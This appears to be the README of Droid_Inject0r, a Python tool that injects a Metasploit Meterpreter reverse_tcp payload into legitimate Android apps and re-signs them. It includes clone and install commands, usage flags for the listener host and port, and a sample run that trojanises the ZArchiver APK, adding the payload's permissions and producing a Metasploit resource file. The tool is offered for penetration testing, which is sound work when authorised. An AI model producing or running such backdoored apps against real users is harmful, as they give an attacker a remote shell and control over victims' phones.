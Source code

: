 # Droid_Inject0r

Droid_Inject0r is a Python script to inject existing Android applications with a Meterpreter payload. It can be used during penetrating testing or security assessments.


[![asciicast](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy.png)](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy)

```
    [+] AUTOR:        Yasser Janah
    [+] GITHUB:       https://github.com/yasserjanah
    [+] TWITTER:      https://twitter.com/yasser_janah
    [+] FACEBOOK:     https://fb.com/yasser.janah
```
# Getting the code

Firstly get the code:
```
git clone https://github.com/yasserjanah/Droid_Inject0r.git
cd Droid_Inject0r/
chmod +x install_requirements.sh
./install_requirements.sh
```
# Usage

```
Usage: python2 Droid_apk_Inject0r.py -p [PAYLOAD] --lhost=[LHOST] --lport=[PORT] --apkfile=[APKFILE]
    << Coded by : Yasser Janah >>
    << Facebook : https://facebook.com/yasser.janah >>
    << Twitter  : https://twitter.com/yasser_janah >>
    << Github   : https://github.com/yasserjanah/ >>
    -p  , --payload        a metasploit android payload (e.x android/meterpreter/reverse_tcp) (not required)
    -lh , --lhost          The listen address (not required)
    -lp , --lport          The listen port (default 4444)
    -ap , --apkfile        path of apkfile (required!!)
```

# Need just select the apkfile 
```
$ ./Droid_apk_Inject0r.py --apkfile zarchiver0-8-3.apk

[*] payload not selected .. default 'android/meterpreter/reverse_tcp'
[*] LHOST not selected .. using '192.168.43.230'
[*] LPORT not selected .. using '4444'
[+] Generating payload:  Generated.
[+] Decompling payload:  Decompiled.
[+] Decompling 'zarchiver0-8-3.apk':  Decompiled.
[+] Copying payload files into 'zarchiver0-8-3.apk':  Done.
[*] Parsing AndroidManifest file
[*] Activity PATH : 'ru/zdevs/zarchiver'
[*] SMALI File    : 'ZArchiver.smali'
[+] Injecting payload into 'zarchiver0-8-3.apk':  Injected.
[+] Get Permissions from payload AndroidManifest file:  Done.
[+] Add Permissions into 'zarchiver0-8-3.apk' AndroidManifest file:  Permissions Added.
[+] Recompling 'zarchiver0-8-3.apk':  Recompiled.
[+] Signing 'zarchiver0-8-3.apk':  Signed.

[+] metasploit rc file : '/home/mcsc/Droid_Inject0r/droid_apk.rc'

[+] final apk : '/home/mcsc/Droid_Inject0r/zarchiver0-8-3-final.apk'

```
